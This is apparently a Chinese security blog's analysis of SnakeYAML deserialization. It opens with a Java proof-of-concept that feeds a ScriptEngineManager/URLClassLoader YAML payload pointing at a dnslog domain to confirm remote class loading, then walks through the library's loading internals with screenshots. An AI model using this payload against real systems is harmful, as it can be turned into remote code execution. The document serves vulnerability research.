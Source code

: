 编写测试类

```java
package org.example;

import org.yaml.snakeyaml.constructor.Constructor;

public class Main {
    public static void main(String[] args) throws InterruptedException {
        String context = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://i0hrz1.dnslog.cn\"]]]]";
        Yaml yaml = new Yaml();
        yaml.load(context);
    }
}
```

在dnslog平台获取一个域名填到payload中，然后运行程序观察dnslog平台得域名解析情况，若有解析记录，则证明存在漏洞。

### 漏洞原理

本文我们不从漏洞手，而是首先了解以下snakeyaml时怎样进行反序列化的，观察在反序列化过程中都有哪些重要的步骤，反序列化过程中又是为何能够解析到我们提供的域名，进而能够进行远程类加载，执行恶意代码。首先我们需要打初始的断点：

![image-20230814161735123](image-20230814161735123.png)

虽然漏洞的触发入口时在load方法，但是我们首先需要关注的时yaml对象的初始化过程。

![image-20230814161845728](image-20230814161845728.png)

从上图，yaml队形初始化过程中共计涉及到5个对象的构建

| 对象          | 功用                                                         |
| ------------- | ------------------------------------------------------------ |
| Contructor    | 对象构造器，负责JavaBean对象的构造                           |
| Representer   | 表示器，不知道有啥用，因为没有具体到它的方法，它在本漏洞中扮演的角色不是特别重要 |
| DumperOptions | JavaBean对象序列化选项                                       |
| LoaderOptions | yaml序列化数据反序列化配置选项，在漏洞修复版本中就是在该类中增加了新的反序列化选项来限制自定义的全局TAG |
| Resolver      | 分析器，具体作用定位不太好描述，另外还有个parser，和resolver解释很像，没太区分明白，当然仔细研究的话肯定还是可以区分。 |

load方法会调用loadFromReader从streamReader中加载对象，而streamReader其实又封装了stringReader对象，面向对象这层层封装还是挺恶心的。

![image-20230814162654884](image-20230814162654884.png)

可以看到就是封装了一些元数据，包括数据窗口的大小，数据长度，数据流，流是否结束标志，缓冲区等，而在StringReader中也仅封装了字符串长度与字符串字面量而已。

![image-20230814162937919](image-20230814162937919.png)



loadFromReader方法主要完成composer（构建器）的创建以及数据的构建。

![image-20230814163122111](image-20230814163122111.png)
